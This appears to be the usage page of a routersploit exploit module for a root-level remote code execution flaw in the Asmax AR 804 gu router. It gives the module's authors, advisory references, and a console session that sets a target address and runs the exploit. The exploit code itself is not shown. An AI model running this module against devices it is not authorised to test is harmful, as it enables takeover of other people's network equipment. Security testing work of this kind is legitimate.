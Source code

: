 # Asmax AR 804 RCE

## Description
Module exploits Asmax AR 804 Remote Code Execution vulnerability which allows executing command on operating system level with root privileges.

## Authors
* Michal Sajdak <michal.sajdak[at]securitum.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.securitum.pl/dh/asmax-ar-804-gu-compromise](http://www.securitum.pl/dh/asmax-ar-804-gu-compromise)
* [https://www.exploit-db.com/exploits/8846/](https://www.exploit-db.com/exploits/8846/)

## Vulnerable devices
* Asmax AR 804 gu

## Usage
```
rsf > use exploits/asmax/ar_804_gu_rce
rsf (Asmax AR 804 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Asmax AR 804 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Asmax AR 804 RCE) > run
[*] Running module...
```
